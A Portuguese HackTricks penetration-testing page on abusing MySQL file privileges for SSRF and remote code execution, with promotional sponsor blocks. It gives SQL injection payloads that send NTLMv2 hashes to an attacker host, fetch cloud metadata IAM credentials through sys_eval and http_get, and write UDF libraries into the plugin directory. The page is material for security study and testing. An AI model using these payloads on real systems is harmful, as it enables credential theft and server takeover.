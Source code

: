 # MySQL File priv para SSRF/RCE

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Você trabalha em uma **empresa de segurança cibernética**? Você quer ver sua **empresa anunciada no HackTricks**? ou você quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**repositório hacktricks**](https://github.com/carlospolop/hacktricks) **e** [**repositório hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### LOAD\_FILE/LOAD DATA/LOAD XML para SSRF

Todo artigo de exfiltração de dados SQL Out of Band usará a função de string `LOAD_FILE()` para fazer uma solicitação de rede. A função em si tem suas próprias limitações com base no sistema operacional em que é executada e nas configurações com as quais o banco de dados foi iniciado.

Por exemplo, se a variável global `secure_file_priv` não estiver definida, o [valor padrão é definido como `/var/lib/mysql-files/`](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html), o que significa que você só pode usar funções como `LOAD_FILE('nome_do_arquivo')` ou `LOAD DATA [LOCAL] INFILE 'nome_do_arquivo' INTO TABLE nome_da_tabela` para ler arquivos do diretório `/var/lib/mysql-files/`. Para poder realizar leituras em arquivos fora deste diretório, a opção `secure_file_priv` deve ser definida como `""`, o que só pode ser feito atualizando o arquivo de configuração do banco de dados ou passando o parâmetro de inicialização `--secure_file_priv=""` para o serviço de banco de dados.

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/2.png)

No entanto, em circunstâncias em que `secure_file_priv` é definido como `""`, deveríamos ser capazes de ler outros arquivos no sistema, assumindo permissões de leitura de arquivo e `file_priv` definido como `Y` em `mysql.user` para o usuário do banco de dados atual. No entanto, ser capaz de usar essas funções para fazer chamadas de rede é muito dependente do sistema operacional. Como essas funções são construídas apenas para ler arquivos, as únicas chamadas relevantes para a rede que podem ser feitas são para caminhos UNC em hosts Windows, pois a [API `CreateFileA` do Windows que é chamada ao acessar um arquivo entende as convenções de nomenclatura UNC](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file).

Portanto, se o banco de dados de destino estiver sendo executado em uma máquina Windows, a consulta de injeção `x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //` resultaria no envio da máquina Windows de hashes NTLMv2 na tentativa de autenticar com o `\\attackerserver.example.com` controlado pelo atacante.

Esse Server Side Request Forgery, embora útil, está restrito apenas à porta TCP 445. Você não pode controlar o número da porta, mas pode ler informações de compartilhamentos configurados com privilégios de leitura completos. Além disso, como foi mostrado em pesquisas anteriores, você pode usar essa capacidade limitada de SSRF para roubar hashes e transmiti-los para obter shells, então definitivamente é útil.

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/3.png)

### Funções Definidas pelo Usuário para RCE

Outra técnica interessante com bancos de dados MySQL é a capacidade de usar Funções Definidas pelo Usuário (UDF) presentes em arquivos de biblioteca externos que, se estiverem presentes em locais específicos ou no $PATH do sistema, podem ser acessados de dentro do MySQL.

Você pode usar uma Injeção de SQL para **escrever uma biblioteca (`.so` ou `.dll`** dependendo do Linux ou Windows), contendo uma Função Definida pelo Usuário que pode fazer solicitações de rede/HTTP, que podem ser então invocadas por meio de consultas adicionais.

Isso tem suas próprias restrições. Com base na versão do MySQL, que você pode identificar com `select @@version`, o diretório de onde os plugins podem ser carregados é restrito. O MySQL abaixo de `v5.0.67` permitia que arquivos de biblioteca fossem carregados do caminho do sistema se a variável `plugin_dir` não estivesse definida. Isso mudou agora e versões mais recentes têm a variável **`plugin_dir`** definida como algo como `/usr/lib/mysql/plugin/`, que geralmente é de propriedade do root.

Basicamente, **para carregar uma biblioteca personalizada no MySQL e chamar uma função da biblioteca carregada via Injeção de SQL, você precisaria**:

* ter a **capacidade de gravar no local** especificado em **`@@plugin_dir`** via Injeção de SQL
* **`file_priv`** definido como **`Y`** em `mysql.user` para o usuário do banco de dados atual
* **`secure_file_priv`** definido como **`""`** para que você possa ler os bytes brutos da biblioteca de uma localização arbitrária, como a rede ou um diretório de uploads de arquivos em um aplicativo da web.

Supondo que as condições acima sejam atendidas, você pode usar a **abordagem clássica de transferir a** [**biblioteca UDF popular do MySQL `lib_mysqludf_sys`**](https://github.com/mysqludf/lib\_mysqludf\_sys) **para o servidor de banco de dados**. Você então seria capaz de fazer solicitações de comandos do sistema operacional como `cURL` ou `powershell wget` para realizar SSRF usando a sintaxe

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

Existem muitas outras funções declaradas nesta biblioteca, uma análise das quais pode ser vista [aqui](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/). Se você é preguiçoso como eu, pode pegar uma cópia desta biblioteca UDF, para o sistema operacional de destino, de uma instalação do metasploit no diretório `/usr/share/metasploit-framework/data/exploits/mysql/` e começar a usar.

Alternativamente, bibliotecas UDF foram criadas especificamente para fornecer ao banco de dados a capacidade de fazer solicitações HTTP. Você pode usar [MySQL User-defined function (UDF) for HTTP GET/POST](https://github.com/y-ken/mysql-udf-http) para fazer com que o banco de dados faça solicitações HTTP, usando a seguinte sintaxe

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

Você também pode [criar sua própria UDF e usá-la para pós-exploração também.](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/)
Em qualquer caso, você precisa transferir a biblioteca para o servidor de banco de dados. Você pode fazer isso de várias maneiras:

1. Use a função de string `hex()` do MySQL ou algo como `xxd -p filename.so | tr -d '\n'` para converter o conteúdo da biblioteca para formato hexadecimal e, em seguida, despeje-o no diretório `@@plugin_dir` usando `x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`
2. Alternativamente, converta o conteúdo de `filename.so` para base64 e use `x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`

Se o `@@plugin_dir` não for gravável, você está sem sorte se a versão for superior a `v5.0.67`. Caso contrário, escreva em um local diferente que esteja no caminho e carregue a biblioteca UDF de lá usando:

* para a biblioteca `lib_mysqludf_sys` - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* para a biblioteca `mysql-udf-http` - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/4.png)

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/5.png)

Para automatizar isso, você pode usar o SQLMap, que suporta [o uso de UDF personalizada por meio da opção `--udf-inject`](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Para Injeções de SQL Cego, você pode redirecionar a saída das funções UDF para uma tabela temporária e, em seguida, ler os dados de lá ou usar [uma solicitação DNS embutida em um comando curl `sys_eval` ou `sys_exec`](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration).

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Você trabalha em uma **empresa de cibersegurança**? Você quer ver sua **empresa anunciada no HackTricks**? ou você quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**repositório hacktricks**](https://github.com/carlospolop/hacktricks) **e para o** [**repositório hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
